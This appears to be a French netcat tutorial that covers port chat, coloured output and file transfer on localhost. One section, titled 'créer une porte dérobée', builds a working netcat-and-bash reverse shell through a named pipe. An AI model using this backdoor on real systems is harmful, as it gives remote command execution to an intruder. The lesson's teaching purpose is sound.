 # Découverte netstat

## Ouvrir un port

Sur un terminal, ouvrir un port

```bash
#serveur
netcat -l 8000
```

Sur un autre terminal, écouter le port

```bash
#client
netcat localhost 8000
```

Taper du texte et constater la conversation entre les deux terminaux

## Envoyer du texte coloré

```bash 
#\033   = code ascii 27 ESC    : 033 en base 8 = 3*8+3=27 en base 16
#\033[  = début séquence ansi
#afficher du texte coloré avec les codes ansi \033[<code>;<code>m      ....  \033[0m     \033=code ascii 27 ESC
# --color=always oblige à conserver les codes couleur (sinon ils sont supprimés dans le pipe)
printf "texte normal\033[0;31mtexte rouge\033[0mtexte normal" --color=always | netcat localhost 8000

#serveur
netcat -l 8000

#client
```

## Créer une porte dérobée

Sur un terminal, ouvrir un port

```bash
#serveur
netcat -l 8000
```

```bash
#client
#/tmp/pipe sert de canal de communication entre bash et notre serveur
#    netcat localhost 8000 | bash   // exécution des commandes par bash
#    bash > /tmp/pipe               // envoi des données dans le pipe
                                    // bash | tee /tmp/pipe
                                    // pour voir aussi le résultat côté client
#    netcat ... < /tmp/pipe         // les données du tuyau (le résultat de bash) sont renvoyés au serveur
mkfifo /tmp/pipe
netcat localhost 8000 < /tmp/pipe | bash | tee /tmp/pipe
```

Sur un autre terminal, envoyer le texte à bash


Depuis le serveur, envoyer des commandes bash. Constater que les commandes bash s'exéutent sur l'autre ordinateur.

```bash
# netcat -l 8000
touch /tmp/x.txt
ls  /tmp/x.txt
```

```bash
netcat localhost 8000 < /tmp/pipe | bash > /tmp/pipe
# RÉSULTAT
#   /tmp/x.txt
```
## Sauvegarder du texte

Sur un terminal, ouvrir un port

```bash
netcat -l 8000
```

Sur un autre terminal, envoyer le texte à bash

```bash
# serveur
netcat-l 8000
# client
netcat localhost 8000 > /tmp/chat.txt
# serveur
ligne1
ligne2
ligne3
# client
cat /tmp/chat.txt
```

## Transférer un fichier avec netcat

### Fichier texte

```bash
# serveur destinataire du fichier
netcat -l 8000 > fichier.test
# client émetteur du fichier
netcat -w 1 localhost 8000  0<index.html
```

### Fichier binaire

```bash
# serveur / réception de l'image
netcat -l 8000 > /tmp/image.png
# client / envoi de l'image
netcat -w 1 localhost 8000 < image.png
echo "il faut maintenant ouvrir image.png pour visualiser"
echo "   vous pouvez utiliser tiv, feh, mspaint.exe, gimp, votre navigateur..."
```
